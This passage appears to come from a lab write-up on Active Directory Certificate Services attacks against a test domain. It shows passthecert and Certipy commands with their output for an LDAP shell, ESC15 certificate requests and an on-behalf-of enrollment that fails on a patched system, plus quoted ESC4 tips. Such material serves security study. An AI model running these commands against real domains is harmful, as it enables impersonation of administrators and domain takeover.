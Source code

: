 ```sh
└─$ python3 passthecert.py -action ldap-shell -crt otheradmin.crt -key otheradmin.key -domain testcorp.local -dc-ip 172.17.199.253
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# whoami
None

# 
```

So, this [GitHub issue](https://github.com/ly4k/Certipy/issues/92) for Certipy describes the `KDC_ERR_INCONSISTENT_KEY_PURPOSE` error message, but this was for the [ESC4](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) attack, where you can modify a certificate template. If your environment is vulnerable to ESC4 try this:

> So I was able to get this attack to work by using [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) and waiting like 5 minutes-ish (1x CA environment). I also modified the `pKIExtendedKeyUsage` and `msPKI-Certificate-Application-Policy` to be identical. You could also just try implementing the Any Purpose EKU instead of Client Authentication to cover more oddities. Even for reverting the changes, I noticed there was a time delay. This is all anecdotal evidence, but resolved my issue here.

### ESC15

You can always try the [ESC15 attack](https://github.com/ly4k/Certipy/pull/228), which is essentially ESC1 without the need to have a `Client Authentication` EKU, but this was patched by Microsoft in November 2024. I still tried it for fun against my patched environment. We request a certificate using the vulnerable template, but also parse the `Certificate Request Agent` EKU OID `1.3.6.1.4.1.311.20.2.1` to `--application-policies`.

```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad req -u testuser -p Password123 -ca "testcorp-WIN-SUSL647VIKP-CA" -template "ESC1-TEMP" --application-policies "1.3.6.1.4.1.311.20.2.1" -target testcorp.local                               
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 82
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'testuser.pfx'
```

When adding this application policy to the certificate enrollment request enables the certificate to enroll for other certificate templates on behalf of other users. When we try this against my patched environment the following error is shown:

```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad req -u testuser -p Password123 -ca "testcorp-WIN-SUSL647VIKP-CA" -template "User" -dc-ip 172.17.199.253 -target testcorp.local -on-behalf-of testcorp\\otheradmin -pfx testuser.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x800b0110 - CERT_E_WRONG_USAGE - The certificate is not valid for the requested usage.
[*] Request ID is 84
Would you like to save the private key? (y/N) N
[-] Failed to request certificate
```
